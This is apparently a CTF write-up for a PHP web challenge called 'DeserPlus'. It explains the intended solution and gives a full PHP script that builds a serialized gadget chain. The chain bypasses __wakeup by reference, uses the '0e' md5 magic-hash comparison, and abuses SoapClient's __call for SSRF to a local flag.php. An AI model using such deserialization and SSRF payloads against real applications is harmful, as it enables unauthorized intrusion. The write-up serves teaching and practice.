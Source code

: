# DeserPlus

**Author:** tel

**Difficulty:** Medium

**Category:** Web

## Title description

Have you learned the common bypassing techniques of PHP deserialization?

## Question analysis

**Exposed port: `80`**

1. flag.php can write the flag to flag.txt, and then you can access `http://xxx/flag.txt` to get the flag, but SSRF is required. Use the `__call` function of the PHP native class `SoapClient` to implement SSRF

2. `__wakeup` in `class A` will set `a` to `hacker?`, which requires common **reference bypass** in PHP deserialization, so use `B::__destruct $this->b = $this->k;` to implement reassignment

```php
<?php

     highlight_file(__FILE__);

     // something in flag.php

     class A
     {
         public $a;
         public $b;

         public function __wakeup()
         {
             $this->a = "hacker?";
         }

         public function __invoke()
         {
             if (isset($this->a) && $this->a == md5($this->a)) {
                 $this->b->uwant();
             }
         }
     }

     class B
     {
         public $a;
         public $b;
         public $k;

         function __destruct()
         {
             $this->b = $this->k;
             die($this->a);
         }
     }

     class C
     {
         public $a;
         public $c;

         public function __toString()
         {
             $cc = $this->c;
             return $cc();
         }
         public function uwant()
         {
             if ($this->a == "phpinfo") {
                 phpinfo();
             } else {
                 $this->a->unexist_function();
             }
         }
     }

     $b = new B();
     $a = new A();
     $b->b = &$a->a;
     $b->k = "0e215962017";
     $c1 = new C();
     $c2 = new C();
     $c1->c = $a;
     $b->a = $c1;
     $c2->a = new SoapClient(null,array('location'=>'http://127.0.0.1/flag.php', 'uri'=>'http://127.0.0.1/flag.php' ));
     // $c2->a = "phpinfo";
     $a->b = $c2;
     echo serialize($b);
```